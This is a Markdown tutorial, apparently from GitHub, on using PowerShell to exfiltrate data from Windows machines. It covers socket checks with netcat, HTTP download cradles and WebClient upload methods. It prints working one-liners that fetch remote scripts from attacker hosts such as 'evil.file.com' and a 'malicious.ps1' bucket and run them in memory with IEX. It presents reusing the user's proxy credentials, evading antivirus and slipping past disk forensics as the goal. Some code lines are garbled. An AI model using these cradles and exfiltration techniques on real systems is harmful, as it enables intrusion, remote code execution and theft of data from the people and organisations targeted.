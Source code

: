 # Powershell for data exfil!

Powershell functions as a great tool for windows machines. Both PS and .net primitives are installed on every windows machine, and while you can use VBS or wscript to perform exfil, they come with a higher chance for detection. Powershell is a solid framework to perform in and we'll cover some usage and options here.

While there are multiple ways to exfiltrate data, there are a a few really common methods.

- Raw sockets
- HTTP/HTTPS
- Mail(SMTP)
- Other protocols(VoIP, QUIC, e.g.)

### Raw Sockets

The easiest way to see if a particular port is open, and permitting communications is the Test-NetConnection cmdlet, like so:
~~~
PS> Test-NetConnection -port 5555 10.0.2.2

ComputerName           : 10.0.2.2
RemoteAddress          : 10.0.2.2
RemotePort             : 5555
InterfaceAlias         : Ethernet
SourceAddress          : 10.0.2.15
PingSucceeded          : True
PingReplyDetails (RTT) : 0 ms
TcpTestSucceeded       : False
~~~
We can see that while our target device is online(via PingSucceeded) our port is closed, (via TcpTestSucceeded).

Using NC(a network tool) I open up an nc listener in order to see the connection, run the same command and see the output

My host machine, listening with verbose results:
~~~
┌─[ganymede@parrot]─[~]
└──╼ $nc -lvp 5555
listening on [any] 5555 ...
~~~

The Windows10 VM:
~~~
PS> Test-NetConnection -port 5555 10.0.2.2

ComputerName           : 10.0.2.2
RemoteAddress          : 10.0.2.2
RemotePort             : 5555
InterfaceAlias         : Ethernet
SourceAddress          : 10.0.2.15
TcpTestSucceeded       : True
~~~
My host machine see's the connection
~~~
┌─[ganymede@parrot]─[~]
└──╼ $nc -lvp 5555
listening on [any] 5555 ...
connect to [127.0.0.1] from localhost [127.0.0.1] 57950
~~~

We can go even further and transfer files, which I'll get into in a moment, first we should talk about the reason we can do this. Powershell makes use of .net primitives, and within the system.net namespace we have sockets, allowing us to open up sockets, allowing us to transfer data. Which we can see an example of utilized below:
~~~
$FuncVarS["Socket"] = New-Object System.Net.Sockets.UDPClient $P
$PacketInfo = New-Object System.Net.Sockets.IPPacketInformation
~~~
Because these all exist within the systems network namespace, the idea is that they are all part of the OS, and it won't trip AV for that reason.

### HTTP/HTTPS 

Many techniques are portable from http to https, and in the early days, protocols like irc would be used for command and control. Modern attackers are dodging port protocol mismatches and odd traffic issues using http, because in many organization you can surf the web with no issues. While an admin might make the counter argument of "We have a web proxy to handle requests." it's not an issue for an attacker. We can actually have PoC here:
~~~
$wc = New-Object System.Net.Web.Client
$wc.Proxy = [System.Net.WebRequests]::DefaultWebProxy
$wc.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials
IEX $wc.DownloadString("https://s3bucket.amazonaws.com/malicious.ps1")
~~~

In this instance we are taking the logged in user's credentials and using the proxy, not just bypassing it, using it, which is great! We look like a normal web user and unless we're under scrutiny, we look like a normal user. 

#### Download Cradles
When we use powershell (or any language) to download a file, it's called a "download cradle"

Typical download cradles look like this:
~~~
IEX (New-Object Net.WebClient).downloadstring("http://evil.file.com/pwnagestego.png")
~~~
"System"  it's still invoked it just doesn't need to fully  be named. IEX is actually short for invoke expression and will actually launch the PS code, directly into memory, without touching the disk, bypassing execution restriction policies, and even throwing disk based forensics off. Kepe in mind, there are definitely more download cradles, this is just one example.

#### Uploader
Just as we can download files, we can upload them as well. System.Net.WebClient offers methods for this such as

System.Net.WebClient
-UploadString
-UploadFile
-UploadData
-and more too!
